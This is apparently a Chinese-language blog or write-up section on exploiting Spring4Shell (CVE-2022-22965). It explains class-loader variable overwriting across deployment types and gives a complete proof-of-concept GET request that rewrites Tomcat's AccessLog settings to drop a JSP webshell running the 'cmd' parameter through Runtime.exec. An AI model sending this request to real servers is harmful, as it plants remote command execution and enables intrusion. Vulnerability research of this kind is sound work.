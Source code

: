 ### 漏洞利用

了解了该漏洞的本质原因是变量覆盖之后,再来看下漏洞利用过程中的问题:
1. 能够覆盖哪些变量?
2. 覆盖的变量会带来什么影响?

现在知道可以通过class.module.classLoader来进行变量覆盖操作,那么具体有哪些变量是可以覆盖的?在springmvc不同的部署场景下classLoader不一样,因此利用方式上是不通用的. 

| 部署形式 | classLoader|
| ---- | ---- |
| SpringBoot FatJar | org.springframework.boot.loader.LaunchedURLClassLoader |
| tomcat war | org.apache.catalina.loader.ParallelWebappClassLoader |
| jetty war | org.eclipse.jetty.webapp.WebAppClassLoader |

在tomcat war部署下（当前测试环境："apache-tomcat-8.5.8" + "jdk-11.0.1"），class.module下能访问的可读可写的属性如下(不完整,没有收集属性是List/Map/Set的):
<details><summary>
点击查看class.module下能访问的可读可写的属性
</summary></details>

 利用其中的class.module.classLoader.resources.context.parent.pipeline可以设置AccessLog的属性,然后就可以利用写日志的功能实现写webshell，POC如下：
 ```text
 GET /CVE_2022_22965_war/spring/get-user-info?password=password&user.name=enokiy&user.age=100&names[0]=aaaaaa&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_3&class.module.classLoader.resources.context.parent.pipeline.first.checkExists=true&class.module.classLoader.resources.context.parent.pipeline.first.rotatable=true&class.module.classLoader.resources.context.parent.pipeline.first.prefix=test&class.module.classLoader.resources.context.parent.pipeline.first.buffered=false&class.module.classLoader.resources.context.parent.pipeline.first.directory=/XXXXXXX/&class.module.classLoader.resources.context.parent.pipeline.first.pattern=%3C%25%7B%25%7Dt%20java.io.InputStream%20in%3DRuntime.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3Bint%20a%3D-1%3Bbyte%5B%5D%20b%3Dnew%20byte%5B2048%5D%3Bout.print(%22%3Cpre%3E%22)%3Bwhile(a%3Din.read(b)!%3D-1)%7Bout.println(new%20String(b))%3B%7D%20out.print(%22%3C%2Fpre%3E%22)%3B%20%25%7B%25%7Dt%3E
 ```
![](images/2022-04-27-20-47-17.png)
